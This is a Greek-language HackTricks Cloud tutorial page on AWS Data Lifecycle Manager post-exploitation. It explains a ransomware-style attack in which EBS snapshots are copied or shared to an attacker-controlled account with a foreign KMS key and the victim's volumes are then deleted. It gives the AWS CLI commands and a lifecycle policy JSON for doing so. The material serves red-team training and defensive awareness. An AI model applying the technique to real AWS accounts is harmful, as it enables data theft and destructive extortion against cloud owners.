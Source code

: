 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Μια επίθεση ransomware μπορεί να εκτελεστεί κρυπτογραφώντας όσο το δυνατόν περισσότερους EBS όγκους και στη συνέχεια διαγράφοντας τις τρέχουσες EC2 περιπτώσεις, EBS όγκους και στιγμιότυπα. Για να αυτοματοποιηθεί αυτή η κακόβουλη δραστηριότητα, μπορεί κανείς να χρησιμοποιήσει το Amazon DLM, κρυπτογραφώντας τα στιγμιότυπα με ένα KMS κλειδί από άλλο AWS λογαριασμό και μεταφέροντας τα κρυπτογραφημένα στιγμιότυπα σε διαφορετικό λογαριασμό. Εναλλακτικά, μπορεί να μεταφέρει στιγμιότυπα χωρίς κρυπτογράφηση σε έναν λογαριασμό που διαχειρίζεται και στη συνέχεια να τα κρυπτογραφήσει εκεί. Αν και δεν είναι απλό να κρυπτογραφήσει κανείς υπάρχοντες EBS όγκους ή στιγμιότυπα απευθείας, είναι δυνατόν να το κάνει δημιουργώντας έναν νέο όγκο ή στιγμιότυπο.

Αρχικά, θα χρησιμοποιήσει μια εντολή για να συγκεντρώσει πληροφορίες σχετικά με τους όγκους, όπως το ID της περιπτώσης, το ID του όγκου, την κατάσταση κρυπτογράφησης, την κατάσταση προσάρτησης και τον τύπο του όγκου.

`aws ec2 describe-volumes`

Δεύτερον, θα δημιουργήσει την πολιτική κύκλου ζωής. Αυτή η εντολή χρησιμοποιεί το DLM API για να ρυθμίσει μια πολιτική κύκλου ζωής που αυτόματα λαμβάνει καθημερινά στιγμιότυπα των καθορισμένων όγκων σε μια καθορισμένη ώρα. Επίσης, εφαρμόζει συγκεκριμένες ετικέτες στα στιγμιότυπα και αντιγράφει ετικέτες από τους όγκους στα στιγμιότυπα. Το αρχείο policyDetails.json περιλαμβάνει τις λεπτομέρειες της πολιτικής κύκλου ζωής, όπως οι στοχευμένες ετικέτες, το πρόγραμμα, το ARN του προαιρετικού KMS κλειδιού για κρυπτογράφηση και τον στοχευόμενο λογαριασμό για κοινή χρήση στιγμιότυπων, ο οποίος θα καταγραφεί στα αρχεία CloudTrail του θύματος.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Ένα πρότυπο για το έγγραφο πολιτικής μπορεί να δει εδώ:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
